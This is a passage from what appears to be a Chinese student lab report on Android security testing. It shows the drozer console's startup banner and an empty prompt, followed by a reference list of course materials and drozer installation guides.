        ..isandp,..,rotectorandro,..,idsnem.                                                                                                                  
        .isisandp..rotectorandroid..snemisis.                                                                                                                 
        ,andprotectorandroidsnemisisandprotec.                                                                                                                
       .torandroidsnemesisandprotectorandroid.                                                                                                                
       .snemisisandprotectorandroidsnemesisan:                                                                                                                
       .dprotectorandroidsnemesisandprotector.                                                                                                                
                                                                                                                                                              
  drozer Console (v2.4.4)                                                                                                                                     
  dz>                                                                                                                                                    
  ```


## <span id="07">参考资料</span>

* [课本 · 第八章实验 · 移动互联网安全](https://c4pr1c3.github.io/cuc-mis/chap0x08/exp.html)
* [课件 · 第八章  · 移动互联网安全](https://c4pr1c3.github.io/cuc-mis-ppt/chap0x08.md.html)
* [移动互联网安全（2021）_哔哩哔哩 (゜-゜)つロ 干杯~-bilibili](https://www.bilibili.com/video/BV1rr4y1A7nz?from=search&seid=6142859782746666446)
* [Drozer Command Reference](https://github.com/FSecureLABS/drozer#command-reference)
* [drozer安装使用教程（Windows） - 诸子流 - 博客园](https://www.cnblogs.com/lsdb/p/9441813.html)
* [2021-mis-public-jerrymajerry/H8 at chap0x08 · CUCCS/2021-mis-public-jerrymajerry](https://github.com/CUCCS/2021-mis-public-jerrymajerry/tree/chap0x08/H8)
* [Android安全测试框架Drozer（安装篇） - 简书](https://www.jianshu.com/p/4ef5b26dd3fb)

